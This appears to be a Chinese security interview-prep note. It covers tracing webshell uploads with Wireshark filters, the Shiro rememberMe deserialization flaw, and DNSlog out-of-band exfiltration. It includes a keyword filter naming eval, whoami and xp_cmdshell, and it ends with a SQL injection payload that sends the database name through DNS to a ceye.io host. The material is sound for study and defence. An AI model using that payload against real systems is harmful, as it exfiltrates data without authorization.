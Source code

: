 # 锐服信

#### 怎么进行流量分析

假设发现web应用服务器发现文件异常增多，初步怀疑被上传webshell，描述流量分析溯源的思路

可利用流量工具进行溯源：

```
1）查看eval、z0、shell、whoami等关键字，查看出现次数过多的时候，可能
需要查看是哪个页面发起的请求，有可能是webshell
2）通过 WireShark 工具快速搜索关键字，定位到异常流量包
3）找出异常IP和所上传的内容，查看是否为webshell
1234
```

如何定位到攻击IP：

```
1)首先通过选择-统计-对话查看流量的走向情况，定位可疑的IP地址
2)根据定位到的IP地址，尝试对上传的webshell进行定位ip.addr ==ip &&http matches "uploadleval|select|xp_cmdshell"&& http.request.method == "POST"
3)查找到 Webshell后尝试溯源漏洞位置，http.request.uri contains“webshell.php”，定位到最开始webshell执行或上传的时候
4)根据最开始的HTTP上传包或者其他漏洞特产定位漏洞类型
1234
```

[wireshark](https://so.csdn.net/so/search?q=wireshark&spm=1001.2101.3001.7020)简单的过滤规则

```
【过滤ip】：过滤源ip地址:ip.src1.1.1.1;目的ip地址：ip.dst1.1.1.1;
【过滤端口】：过滤80端口：tcp.port80，源端口：tcp.srcport80，目的端口：tcp.dstport==80
【协议过滤】：直接输入协议名即可，如http协议http
【http模式过滤】：过滤get/post包http.request.mothod=="GET/POST"
```

#### shiro漏洞原理

为了让浏览器或服务器重启后用户不丢失登录状态，Shiro 支持将持久化信息序列化并加密后保存在 Cookie 的 rememberMe 字段中，下次读取时进行解密再反序列化。但是在 Shiro 1.2.4 版本之前内置了一个默认且固定的加密 Key，导致攻击者可以伪造任意的 rememberMe Cookie，进而触发反序列化漏洞。

#### 序列化与反序列化

- 序列化： 将数据结构或对象转换成二进制串的过程
- 反序列化：将在序列化过程中所生成的二进制串转换成数据结构或者对象的过程

#### dnslog攻击

在某些无法直接利用漏洞获得回显的情况下，但是目标可以发起DNS请求，这个时候就可以通过`DNSlog`把想获得的数据外带出来。

**load_file**
在MySQL中有个`load_file()`函数可以用来读取本地的文件,`load_file()`函数还可以用来发送dns解析请求
*以SQLi-LABS 第五关为例：*
**payload：**
`?id=1' and if((select load_file(concat('\\\\',(select database()),'.xxxxxx.ceye.io\\abc'))),1,1)--+`
